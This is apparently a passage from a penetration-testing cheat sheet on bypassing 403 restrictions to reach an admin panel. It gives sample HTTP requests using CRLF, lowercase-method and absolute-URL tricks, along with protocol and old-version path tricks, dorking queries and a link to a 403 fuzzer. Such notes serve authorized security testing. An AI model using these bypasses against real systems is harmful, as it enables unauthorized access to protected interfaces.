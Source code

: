 ### \r\rn Trick

```bash
\\r\\n
GET /AdminPanel HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0
Referer: <https://previous.com/path>
Origin: <https://www.company.com>
```

### LowerCase Method Trick

```bash
get /AdminPanel HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0
Referer: <https://previous.com/path>
Origin: <https://www.company.com>
```

### Absolute URL in Request

```bash
GET <http://target.com/authorization/AdminPanel> HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0
Referer: <https://previous.com/path>
Origin: <https://www.company.com>
```

# Another Tricks

### Protocol Manipulation

`http://target.com/AdminPanel` instead of `https://target.com/AdminPanel`

### Old Version Missconfiguration

**`https://target.com/v1/AdminPanel`**

### Dorking The Path With Google - Github

- **Google:** `site:company.com inurl:/authorization-response`
- **GitHub:** `python3 github-endpoints.py -d www.company.com -s -r`

# Automated Tools

### 403Fuzzer

[https://github.com/bbhunter/403fuzzer](https://github.com/bbhunter/403fuzzer)
